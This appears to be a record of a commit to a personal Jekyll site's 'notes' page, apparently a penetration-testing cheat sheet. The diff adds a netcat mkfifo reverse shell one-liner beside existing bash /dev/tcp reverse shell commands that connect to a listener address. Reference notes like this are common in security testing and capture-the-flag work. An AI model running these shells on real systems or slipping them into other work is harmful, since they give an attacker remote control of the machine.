

Before and after one commit to mcorybillington/mcorybillington.github.io, a Jekyll site: the page built from _pages/notes.md, in a window 1280 px wide and 900 px high, scrolled down 3136 px. Shown: the whole window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Added nc no e snippet

````diff
--- a/_pages/notes.md
+++ b/_pages/notes.md
@@ -16,6 +16,7 @@ author_profile: true
   - [Create a Windows Defender exclusion](#create-a-windows-defender-exclusion)
 - [Shells](#shells)
   - [Bash](#bash)
+  - [nc no e](#nc-no-e)
   - [Perl](#perl)
   - [Python](#python)
   - [PHP](#php)
@@ -77,6 +78,10 @@ bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
 Background process
 ```
 bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'
+```
+### nc no e
+```
+rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444
 ```
 ### Perl
 ```
````
